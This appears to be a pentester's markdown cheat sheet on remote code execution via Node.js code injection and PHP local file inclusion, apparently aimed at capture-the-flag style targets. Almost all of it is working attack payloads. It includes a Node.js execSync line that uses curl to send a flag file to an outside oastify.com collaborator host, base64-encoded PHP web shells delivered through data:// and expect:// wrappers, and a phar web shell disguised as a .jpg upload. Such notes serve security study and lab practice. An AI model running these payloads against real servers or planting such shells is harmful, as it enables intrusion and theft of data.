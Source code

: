 [[LFI]]
#php
#nodejs 

# Nodejs
Code injection:
```js
process.mainModule.require('child_process').execSync('curl http://v2ykv786rd6cm20eq2zgccth78dz1ppe.oastify.com/$(cat /flag.txt)')+
```

##### Via LFI and PHP wrappers
Encode PHP script in base64:
```bash
echo '<?php system($_REQUEST("cmd")) ?>' | base64
```

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Data wrapper expect
Check config for
```
extension=expect
```

```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##### Via phar upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

?>
```

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
